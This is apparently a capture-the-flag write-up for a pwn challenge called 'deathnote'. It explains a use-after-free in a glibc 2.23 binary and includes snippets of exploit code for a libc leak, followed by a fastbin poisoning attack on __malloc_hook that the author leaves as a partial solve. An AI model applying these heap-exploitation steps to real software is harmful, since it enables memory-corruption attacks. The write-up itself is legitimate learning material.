



## Foobar CTF: deathnote [pwn]

#### We are given a challenge binary which uses the 2.23-0ubuntu11 version of libc and has canary and NX protections enabled but has no PIE and partial RELRO. A summary of the functionalities are as follows:

```
- add:
|---- can only allocate 6 indexes
|---- chunk size must be -1 < size < 0x401
- edit:
|---- no vulns in particular
- delete: 
|---- doesnt delete already free chunk, only allowed to delete 5 times
|---- does not zero out pointer, use-after-free
- view:
|---- read primitive
```

## libc leak
#### Although there's a check in the view() functionality of the program that goes something like `*(long *)(book + (long)iVar1 * 8) == 0`, it is easily bypassed as we can free a chunk into the doubly-linked unsorted bin which ensures that we pass the check and leak a libc pointer in the process. Just make sure to place chunks after the unsorted bin chunk so that it doesn't coalesce with the top chunk

```
add_name(0, 0x100, 'A' * 8) #: DOESN'T FIT TO FASTBIN
add_name(1, 0x60, 'B' * 8)
add_name(2, 0x60, 'C' * 8)
add_name(3, 0x60, 'AVOIDCONSOLIDATE') #: BORDER SO THE PREV CHUNK WONT COALESCE WITH TOP CHUNK
remove_name(0) #: PLACED IN UNSORTED BIN

#: we can view the book since it's fd pointer isn't null, which passes the check on view_name()
libc.address = u64(view_name(0, leak = True).ljust(8, b'\x00')) - 0x3c4b78
log.info(hex(libc.address))
```
## fastbin attack
##### Given that the libc version is 2.23, we can leverage an attack on the fastbin mechanism by performing some sort of poisoning attack like what we would do on the tcache. By editing a freed fastbin chunk, we can change it's fd pointer to point to a chunk that we can control, which in this case is the free hook for rce. Seems to work since there is a chunk on free hook on the fastbin list, but there's a problem when trying to allocate it.



## memory corruption (fast)

#### checking the backtrace of the crash reveals the `malloc(): memory corruption (fast)` error message that is returned by the allocator. reviewing the malloc source code reveals more details regarding the error message:
```c
  if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
```

#### if I understand this correctly, malloc first checks if the chunk's size metadata (chunk + 0x8) is equal to the fastbin size that the chunk is in and in this case it fails because `&__free_hook + 0x8` is just null bytes. A technique I learned from this [resource](http://blog.rh0gue.com/2017-04-09-ASIS17-CaNaKMgF/) is that we must find a memory_location such that `memory_location + 0x8` satisfies the size check constraint and we are able to overwrite a hook for RCE control.


#### the chunk on `&__malloc_hook - 0x23` is the memory location that we want and in order to satisfy the size check, we must allocate chunks which have a size of 0x60 (+0x10 for metadata)

```
pwndbg> p __malloc_hook
$1 = (void *(*)(size_t, const void *)) 0x78b7d4bd0216 <do_system+1014>
```

## malloc hook doesn't spawn shell (insert crying doge meme)
#### At this point, we can simply overwrite the hook with a one gadget. But I encountered a problem once again and this time it is because none of the one gadgets for the libc work (atleast for me it doesn't). While I'm studying other writeups for other possible approaches, I'm considering this as a partial solve since I was able to overwrite malloc hook and (possibly) get a shell if I made it work :P